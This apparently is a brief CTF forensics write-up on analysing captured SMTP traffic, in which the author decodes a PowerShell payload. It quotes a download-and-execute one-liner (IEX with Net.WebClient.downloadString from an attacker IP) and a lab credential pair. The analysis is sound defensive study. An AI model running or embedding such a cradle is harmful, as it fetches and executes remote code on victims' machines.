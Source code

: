 
filterd for smtp and followed a tcp stream i found a base64 at the end that had a powershell command one liner IEX(New-Object Net.WebClient).downloadString('http://10.0.2.45/radius.ps1') The command creates a Net.WebClient(used to send and receive data using http). The command downloads the contents of radius.ps1 being served in attacker's ip 10.0.2.45. It executes the downloaded data in memory using IEX(Invoke Expression)-the script is never saved in disk it executes after being downloaded.

tom.dom@eventhorizon.thm:password dom.mark@eventhorizon.thm
<img width="1919" height="489" alt="image" src="https://github.com/user-attachments/assets/fa3687c9-0a9f-4761-b305-4cd395e6887e" />
<img width="1275" height="797" alt="image" src="https://github.com/user-attachments/assets/86f88982-cf9f-4a81-9389-3a5c078a3c25" />
<img width="1093" height="771" alt="image" src="https://github.com/user-attachments/assets/ebc13801-1254-48ca-8471-907fa6cdc7b6" />

script.py reads the powershell file, extracts base64 blob, decodes it from base64, decompresses it(deflate), saves the raw .NET assembly(DLL/EXE) to disk so it can be inspected
virustotal.com

<img width="805" height="142" alt="image" src="https://github.com/user-attachments/assets/a1bcb22e-a1e4-490d-a4fe-4ac29d3b324e" />

<img width="1740" height="745" alt="image" src="https://github.com/user-attachments/assets/fb535389-1f0c-40a3-9277-66074731ce18" />


